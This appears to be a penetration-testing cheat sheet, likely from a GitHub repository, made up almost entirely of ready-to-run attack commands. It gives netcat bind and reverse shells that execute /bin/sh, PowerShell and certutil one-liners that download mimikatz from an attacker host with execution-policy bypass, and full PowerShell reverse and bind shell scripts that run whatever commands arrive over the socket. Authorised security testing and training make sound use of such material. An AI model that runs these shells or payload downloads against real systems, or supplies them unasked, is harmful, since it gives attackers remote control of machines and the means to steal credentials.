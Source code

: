 # Commands for establishing connections and transfering files
https://manpages.debian.org/bullseye/netcat-traditional/nc.1.en.html

## Connecting using netcat
### Listening:
```console
nc -nlvp $PORT
```

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## File transfer
### Receiving file:
```console
nc -nlvp $PORT > $FILENAME_RCPT
```

### Sending file:
```console
nc -np $PORT < $FILENAME_SEND
```

## Bind shell
### Listening:
```console
FILENAME=/bin/sh
nc -nlvp $PORT -e $FILENAME
```
`-e` : specify filename to exec after connect (use with caution). See the -c option for enhanced functionality.

### Connecting:
```console
nc -nv $ADDRESS $PORT
```

## Reverse bind shell
### Listening:
```console
nc -nlvp $PORT
```
### Connecting:
```console
FILENAME=/bin/sh
nc -nv $ADDRESS $PORT -e $FILENAME
```

## Downloading files from Kali to Windows target
### Setup http web server:
```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
sudo python3 -m http.server 80 &> /dev/null &
```

### Downloading:

1. Using PowerShell `System.Net.WebClient`

```console
set SRC_URL=http://kali.vx/mimikatz.exe
set DST_PATH=%USERPROFILE%\mimikatz.exe
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile($env:SRC_URL,$env:DST_PATH)
```

2. Using `certutil`

```console
set SRC_URL=http://kali.vx/mimikatz.exe
set DST_PATH=%USERPROFILE%\mimikatz.exe
certutil.exe -urlcache -f -split %SRC_URL% %DST_PATH%
```

## Windows reverse bind shell
### Setup listening in kali:
```console
nc -lnvp $PORT
```
### Powershell code:
```console
$ADDRESS='kali.vx'
$PORT=443
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```
### Running powershell from cmd:
```console
set ADDRESS=kali.vx
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$CLIENT = New-Object System.Net.Sockets.TCPClient($env:ADDRESS,$env:PORT);$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();"
```

## Windows bind shell
### Powershell code:
```console
$PORT=443
$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$PORT)
$LISTENER.start()
$CLIENT = $LISTENER.AcceptTcpClient()
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
$LISTENER.Stop()
```

### Running powershell from cmd:
```console
set PORT=443
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "$LISTENER = New-Object System.Net.Sockets.TcpListener('0.0.0.0',$env:PORT);$LISTENER.start();$CLIENT = $LISTENER.AcceptTcpClient();$STREAM = $CLIENT.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0){$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$SENDBACK = (iex $DATA 2>&1 | Out-String );$SENDBACK2 = $SENDBACK + 'PS ' + (pwd).Path + '> ';$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2);$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length);$STREAM.Flush()};$CLIENT.Close();$LISTENER.Stop();"
```

### Connecting from kali:
```console
nc -nv $ADDRESS $PORT
```

